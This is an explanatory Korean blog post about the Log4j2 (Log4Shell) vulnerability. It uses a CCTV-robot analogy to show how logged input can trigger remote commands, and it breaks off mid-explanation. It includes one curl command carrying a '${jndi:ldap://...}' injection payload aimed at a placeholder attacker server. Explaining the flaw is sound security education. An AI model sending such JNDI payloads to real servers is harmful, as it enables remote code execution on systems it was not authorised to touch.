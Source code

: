 분명히 멋진 일이지만, 이 손에 무엇을 쥐어주느냐를 신경쓰지 못했다.  
그 누구도 이렇게 사용하면 될거라는 창의적인 생각을 못한 것이다.

![CCTV Robot](/images/003_issues/003_issues-00001/003_attack.png)
###### [무서운 CCTV 로봇] 그 손에 몽둥이를 들게 하는 법을 찾아냈다.

#### 그럼 어떻게 CCTV (로깅)이 나쁜짓을 하게 만들 수 있을까?

원리는 단순했다. CCTV (이제부터는 로거, Logger 라고 부르자)는 눈이 달려 있고, 기록하는 일만 하면 되는데 손,발을 달아 놓고 이것을 움직이게 하고 싶다면 어떻게 해야 할까? 이렇게 해라 저렇게 해라라는 명령을 전달해야 움질일테니, 쳐다보고 있는 눈에 특정한 움직임을 넣는다면 되겠다라는 생각을 한 것이다.


![눈으로 알아맞추기](/images/003_issues/003_issues-00001/04_catch-mind.jpg)
###### [캐치마인드] 기록(그림)으로 무언가를 맞추는 게임, 명령을 알아맞추면 되는 것과 원리가 같다.

로거가 눈으로 쳐다보면서 기록을 하고 있는데, 특정한 움직임이 보이면 명령으로 인식해서 그 명령을 열심히 수행하는 것이다.

![로거 명령](/images/003_issues/003_issues-00001/05_cctv_command.jpg)
###### [명령 전달] 특정한 행동은 명령이라고 먼저 로거(CCTV)를 훈련 시켜놓으면 된다.

우리의 성실한 로거는 그 명령대로 열심히 수행만 하면 되었고,  
그게 그냥 서버 관리자 입장에서 실행시키고 싶지 않은 명령이었을 뿐이다.  
이렇게 공격자들은 창의적이다.  

#### 실제 소스코드는 어떤 그림일까?

![log4j2 vulnerability](/images/003_issues/003_issues-00001/06_cctv_source.jpg)
###### [바깥에서 들어온 명령] 원래는 기록만 하면 되는데, 특정 행동을 바깥(웹 브라우저)에서 임의로 넣는다.

바깥에서 이렇게 쉽게 접근이 문제였다.
```shell
# 간단한 명령어(${jndi...}) 를 넣을 수 있다.
$ curl 네이X.com -H 'User-Agent: ${jndi:ldap://나쁜놈서버/나쁜행동명령}'
```

![log4j2 record](/images/003_issues/003_issues-00001/07_log_source.jpg)
###### [log4j 기록] 서버 안쪽에 이렇게 문자열로 저장이 되는 형태다.

실제로 저 "나쁜행동명령"은 간단한 내용만 들어있다.  
"더 강하고 악랄한 놈을 데려와라"
라는 내용이 있다면 어떻게 될까?

#### 어떤 공격들이 가능한걸까?

언뜻 생각해보면, 공장 CCTV 안쪽으로 명령을 집어서 공격자가 시키고 싶은 걸 하는 게 공격인데, 이상한 생각이 든다.  
명령이라는 건 어떻게 수행하라는 "정해진 계획"이다.  
근데 정해진 계획이란건 틀어지는게 인지상정.
왜냐하면 공장(서버) 안쪽은 어떻게 생겼는지 바깥에서는 보이지 않는 상태다. 그런데도 공격이 먹힌다. 왜 그럴까?  

하나 예를 들어보자, 공격자가 명령문을 이렇게 작성했다 치자.  

<u>명령 : "서버안쪽에 들어가면 빨간색이 칠해진 문이 있을거야, 그 문 손잡이를 오른쪽으로 돌려"</u>
